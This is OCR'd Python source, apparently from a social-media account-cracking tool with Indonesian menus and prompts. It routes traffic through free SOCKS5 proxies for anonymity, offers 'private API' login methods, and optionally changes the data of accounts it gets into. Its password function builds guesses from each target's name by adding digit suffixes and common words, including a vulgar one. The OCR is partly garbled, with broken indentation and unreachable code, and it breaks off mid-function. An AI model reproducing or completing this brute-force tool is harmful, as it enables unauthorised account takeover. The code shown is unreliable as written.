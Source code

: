            else:pass
       except:
        return 1

   def ToolsType(self):
       MAIN().List(self.pk_idg)
       
   def List(self, uid):
       for me in uid:self.id.append(me)
       self.MyRic('\
[white]01. Api Private Threads     03. Api Private Type Recovery\
 02. Api Private Type Manual 04. Api Private Type SmartLock',True)

       self.Main()
   def Main(self):
       while True:
         x = Console(style=temane[0]).input('   └──> ')
         if x in   ['01','1']: self.MethodType.append('1')
         elif x in ['02','2']: self.MethodType.append('2')
         elif x in ['03','3']: self.MethodType.append('3')
         elif x in ['04','4']: self.MethodType.append('4')
         break
         self.proxi_anony('https://api.proxyscrape.com/v3/free-proxy-list/get?request=displayproxies&protocol=socks5&proxy_format=protocolipport&format=text&timeout=20000')
       self.Exekusy()

   def Exekusy(self):
       self.MyRic('\
[white]Perlu Di Perhatikan Mengubah Data Menggunakan Script Dapat Menyebabkan Akun Terkena Sesi/Checkpoint \
Saran Untuk Tidak Menggunakan Fiture Ini. Jika Anda Ingin Mengubah Data Ketikan [green]y [/]sebaliknya ketikan [green]t',True)
       x = Console(style=temane[0]).input(f'   └──> ')
       if x in ['ya','y']:self.UbahData.append(True)
       else:self.UbahData.append(False)
       self.Exekusy2()

   #-> Buat Sandi
   def pwdc(self, nama, full, komb):
       self.x,self.i = [], []
       for self.y in nama.split(' '):
           if len(self.y) <2:continue
           elif len(self.y) == 3 or len(self.y) == 4 or len(self.y) == 5:
              self.z = self.y.lower()
              if komb == '1' or komb == '01':
                  self.x.append(self.z)
                  self.x.append(self.z+'123')
                  self.x.append(self.z+'123')
                  self.x.append(self.z+'1234')
                  self.x.append(self.z+'12345')
                  self.x.append(self.z+'123456')
                  self.x.append(self.z+'01')
                  self.x.append(self.z+'02')
                  self.x.append(self.z+'03')
                  self.x.append(self.z+'04')
                  self.x.append(self.z+'05')
                  self.x.append(self.z+'11')
                  self.x.append(self.z+'12')
                  self.x.append(self.z+'13')
                  self.x.append(self.z+'21')
                  self.x.append(self.z+'22')
                  self.x.append(self.z+'23')
                  self.x.append(self.z+'cantik')
                  self.x.append(self.z+'ganteng')
                  self.x.append(self.z+'kontol')
                  self.x.append('kontol123')